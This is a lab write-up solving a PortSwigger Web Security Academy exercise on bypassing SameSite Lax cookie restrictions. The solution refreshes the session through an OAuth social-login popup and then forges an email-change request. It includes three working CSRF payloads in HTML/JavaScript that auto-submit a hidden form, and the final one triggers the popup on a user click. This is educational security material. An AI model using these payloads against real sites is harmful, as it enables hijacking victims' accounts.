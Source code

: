 # Lab: SameSite Lax bypass via cookie refresh

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2c98fd44-c0a8-45f4-af81-31d26a824257)

## Solution

Log in using the given username and password, the page will take us to a social media page for loggin in.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3ad79edf-3f92-478d-80ca-30e903b17200)

Submit a update email request with some random email id.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/319a2790-3f77-40dd-a7b4-ef4d49c5854f)

The email update `POST` request doesn't have any unpredictable tokens.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/e7bebe28-ede1-4f4c-a9e0-4a908f6b5259)

Use the following script in the body section of the exploit server for a basic CSRF attack

```Javascript
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a7e66e97-60a2-4d23-a374-d204f3bc1213)

The email has been changed to the one we specified.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8c2b0285-a916-48e4-9d54-6e4770cb90b5)

The `GET /oauth-callback?code=[...]` request at the end of the OAuth flow doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default Lax restriction level.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/acdff665-726a-4da6-acf6-5e7cf0a75799)

`/social-login` is the one that automatically initiates the full OAuth flow.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b71be57d-9f57-4eb4-945f-cb76671d1078)

Use the following script in the body of the exploit server for causing an email change request.

```Javascript
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="faked@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3a140290-68df-4c68-ba8f-85bb0a4cbcfd)

The initial request is blocked as a popup.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2bed33c3-7be1-4322-871b-af2ec4f35896)

Even though the pop-up was blocked the CSRF attack still works.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/59f9405f-9c63-4ba2-9f5e-19ae9a30be4a)

The pop-up was blocked because there is no interaction with the page. Use the following script in the body of the exploit server which will enable an interaction with the webpage.

```Javascript
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pranked@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

Delivering the it to the victim will finish the lab and cause the CSRF attack
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4d154309-beb9-47a5-83b5-97f2bb442857)

When inspecting the `POST /my-account/change-email` we can see a new session cookie has been created.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/89e4859b-3300-42b1-bba0-c5551f0a9ddc)
